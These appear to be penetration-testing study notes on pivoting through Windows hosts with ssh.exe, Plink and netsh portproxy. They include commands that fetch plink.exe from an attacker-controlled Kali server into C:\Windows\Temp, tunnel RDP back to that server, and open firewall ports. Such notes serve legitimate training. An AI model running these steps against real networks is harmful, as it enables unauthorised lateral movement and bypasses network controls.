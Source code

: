 ```yaml
---
description: test
---
```


# Port forwarding on Windows

## ssh.exe

check ssh version on windows:

```powershell
ssh.exe -V
```

* if version of OpenSSH bundled with Windows is higher than <mark style="color:green;">**7.6**</mark>, it can be used for remote dynamic port forwarding.

create a remote dynamic port forward to Kali machine:

```powershell
ssh -N -R 9998 kali@192.168.118.4
```

* pass the port **9998** to **-R** and authenticate as _kali_ back on our Kali machine.

check socks proxy is open on kali:

```sh
ss -ntplu
```

add proxy config to **/etc/proxychains4.conf:**

* `socks5 127.0.0.1 9998`&#x20;

***

## Plink

Most networks have SSH servers running somewhere, and administrators need tools to connect to these servers from Windows hosts.

Upload plink from kali:

{% code overflow="wrap" %}
```
find / -name plink.exe 2>/dev/null

sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
```
{% endcode %}

Download plink on windows machine:

{% code overflow="wrap" %}
```powershell
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
{% endcode %}

Using plink for remote port forwarding:

{% code overflow="wrap" %}
```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
{% endcode %}

* **-R:** specify remote port forwarding
* **-l**: username
* **-pw**: password

connect to port 9833 on the Kali loopback interface with **xfreerdp** as the _rdp\_admin_ user:

```powershell
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```



***

## Netsh

{% code overflow="wrap" %}
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```
{% endcode %}

* **v4tov4:** struct **netsh interface** to **add** a **portproxy** rule from an IPv4 listener that is forwarded to an IPv4 port
* **listenport=2222 listenaddress=192.168.50.64: l**isten on port 2222 on the external-facing interface
* **connectport=22 connectaddress=10.4.50.215:** forward packets to port 22 on PGDATABASE01

confirm that port 2222 is listening:

```powershell
netstat -anp TCP | find "2222"

netsh interface portproxy show all
```

Open port 2222 on the firewall by adding rule:

{% code overflow="wrap" %}
```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```
{% endcode %}

Delete firewall rule:

{% code overflow="wrap" %}
```powershell
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```
{% endcode %}

Delete port forwarding:

{% code overflow="wrap" %}
```powershell
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
{% endcode %}
